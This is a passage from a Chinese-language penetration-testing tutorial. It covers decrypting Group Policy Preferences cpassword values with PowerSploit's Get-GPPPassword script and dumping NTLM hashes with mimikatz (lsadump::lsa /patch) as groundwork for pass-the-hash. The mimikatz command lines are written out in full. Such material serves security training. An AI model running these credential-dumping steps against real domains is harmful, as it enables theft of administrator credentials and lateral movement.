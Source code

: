 
  

④查看策略内容，文件内容里面cpassword项保存的是加密后的内容，加密方式为AES 256

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

还原hash的方式可采用开源的powershell脚本，项目地址如下：

```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1
```

```


  



```

⑤ 执行powershell解密hash。将该cpassword密码值放到powershell脚本里面然后执行脚本读取得到组策略下发的密码

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

综上所述：拿到域主机一定要打开访问域策略共享文件夹，可以看到拿到的域主机被下发了哪些策略。通过这些策略可以获取更多相关域的信息

  

* * *

  

**三、PTH 哈希传递攻击**
================

windows 2012及之后版本目前无法直接读取明文只能读取主机密文，提权后读取域主机密文。然后通过爆破碰撞等方式获取明文密码，但是不可控制因素比较大。此时也可利用PTH哈希传递方式对内网进行攻击。

  

**PTH**

> pass the hash。获取一台主机的本地管理员组成员账号的口令NTLM后，无法破解密码，使用PTH方法将管理员账号及NTLM注入当前会话作为凭据，利用该凭据可以渗透获取周围的主机的管理权限，如果对方存在相同账号及密码，进行密码碰撞是可以获取到这些主机权限的。

  

**1.利用mimikatz.exe读取本地hash密文**  

```
`mimikatz.exe              //运行``privilege::debug          //提权``lsadump::lsa /patch      //得到hash密文``# 或者一步到位并将查询结果保存造本地txt文件：``mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit >>log2.txt`
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

